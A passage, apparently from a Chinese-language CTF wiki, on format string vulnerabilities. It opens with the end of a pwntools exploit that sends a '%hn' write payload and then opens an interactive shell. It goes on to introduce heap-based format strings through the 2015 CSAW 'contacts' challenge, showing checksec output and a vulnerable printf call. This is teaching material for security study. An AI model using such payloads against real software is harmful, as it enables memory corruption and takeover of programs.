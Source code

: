 ```python
#0x4008aa-0x4008a6
sh.writeline("%2218d%8$hn")

sh.recv()
sh.writeline("1")
sh.recv()
sh.interactive()
```

## 堆上的格式化字符串漏洞

### 原理

所謂堆上的格式化字符串指的是格式化字符串本身存儲在堆上，這個主要增加了我們獲取對應偏移的難度，而一般來說，該格式化字符串都是很有可能被複制到棧上的。

### 例子

這裏我們以 2015 年 CSAW 中的 [contacts](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/fmtstr/2015-CSAW-contacts) 爲例進行介紹。

#### 確定保護

```shell
➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出程序不僅開啓了 NX 保護還開啓了 Canary。

#### 分析程序

簡單看看程序，發現程序正如名字所描述的，是一個聯繫人相關的程序，可以實現創建，修改，刪除，打印聯繫人的信息。而再仔細閱讀，可以發現在打印聯繫人信息的時候存在格式化字符串漏洞。

```C
int __cdecl PrintInfo(int a1, int a2, int a3, char *format)
{
  printf("\tName: %s\n", a1);
  printf("\tLength %u\n", a2);
  printf("\tPhone #: %s\n", a3);
  printf("\tDescription: ");
  return printf(format);
}
```

仔細看看，可以發現這個 format 其實是指向堆中的。

#### 利用思路

我們的基本目的是獲取系統的 shell，從而拿到 flag。其實既然有格式化字符串漏洞，我們應該是可以通過劫持got表或者控制程序返回地址來控制程序流程。但是這裏卻不怎麼可行。原因分別如下
